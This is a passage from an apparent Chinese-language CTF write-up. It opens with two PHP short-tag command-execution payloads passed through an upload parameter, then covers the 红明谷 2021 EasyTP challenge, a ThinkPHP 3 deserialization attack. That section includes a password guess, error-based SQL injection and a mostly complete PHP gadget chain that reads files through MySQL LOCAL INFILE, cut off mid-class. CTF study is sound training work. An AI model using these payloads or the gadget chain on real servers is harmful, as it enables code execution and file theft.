 ```
?action=upload&data=<?=`ls%09/`?>
?action=upload&data=<?=`nl%09/flllllll1112222222lag`?>
```

## [红明谷CTF 2021]EasyTP

/www.zip 读源码, 得知路由是 /?s=Home/Index/test 可以反序列化, 而且是 tp3, 只有一个 sql 反序列化读文件

需要猜一下数据库的密码 root, 填一个 mysql 自带的数据库通过报错注入找到需要的数据库然后报错注入即可

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "mysql",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
```
